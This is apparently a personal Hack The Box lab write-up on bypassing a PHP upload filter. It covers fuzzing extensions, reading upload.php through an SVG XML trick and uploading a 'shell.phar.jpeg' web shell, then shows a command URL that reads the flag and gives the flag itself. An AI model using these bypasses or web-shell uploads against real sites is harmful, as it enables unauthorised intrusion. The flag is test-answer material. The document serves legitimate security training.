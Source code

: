 Found upload form at the contact page:
![[Pasted image 20240513100723.png]]

We can only concern with the upload button, and ignore the submit button.

Sent the image upload request to intruder, to fuzz for allowed extensions:
![[Pasted image 20240513104558.png]]

Using PHP extension list, and no URL encoding:
![[Pasted image 20240513104638.png]]

Got 2 successful uploads:
![[Pasted image 20240513104742.png]]

Fuzzing again, this time with PHP before JPEG:
![[Pasted image 20240513105658.png]]

Got a few hits:
![[Pasted image 20240513105728.png]]

Allowed extensions:

- phar
- pht
- pgif
- phtm

Read the `upload.php` file using SVG file with XML:
![[Pasted image 20240513114932.png]]

Decoded output:
```
<?php
require_once('./common-functions.php');

// uploaded files directory
$target_dir = "./user_feedback_submissions/";

// rename before storing
$fileName = date('ymd') . '_' . basename($_FILES["uploadFile"]["name"]);
$target_file = $target_dir . $fileName;

// get content headers
$contentType = $_FILES['uploadFile']['type'];
$MIMEtype = mime_content_type($_FILES['uploadFile']['tmp_name']);

// blacklist test
if (preg_match('/.+\.ph(p|ps|tml)/', $fileName)) {
    echo "Extension not allowed";
    die();
}

// whitelist test
if (!preg_match('/^.+\.[a-z]{2,3}g$/', $fileName)) {
    echo "Only images are allowed";
    die();
}

// type test
foreach (array($contentType, $MIMEtype) as $type) {
    if (!preg_match('/image\/[a-z]{2,3}g/', $type)) {
        echo "Only images are allowed";
        die();
    }
}

// size test
if ($_FILES["uploadFile"]["size"] > 500000) {
    echo "File too large";
    die();
}

if (move_uploaded_file($_FILES["uploadFile"]["tmp_name"], $target_file)) {
    displayHTMLImage($target_file);
} else {
    echo "File failed to upload";
}

```

Upload directory:
`user_feedback_submissions`

Upload convention:
`<year><month><day>`

Example with uploading `dog.jpeg` (the location of the file):
`user_feedback_submissions/240513_dog.jpeg`

Managed to upload a web shell file:
![[Pasted image 20240513122426.png]]

Got the file with the URL:
```
http://94.237.62.149:57595/contact/user_feedback_submissions/240513_shell.phar.jpeg?cmd=cat%20/flag_2b8f1d2da162d8c44b3696a1dd8a91c9.txt
```

HTB{m4573r1ng_upl04d_3xpl0174710n}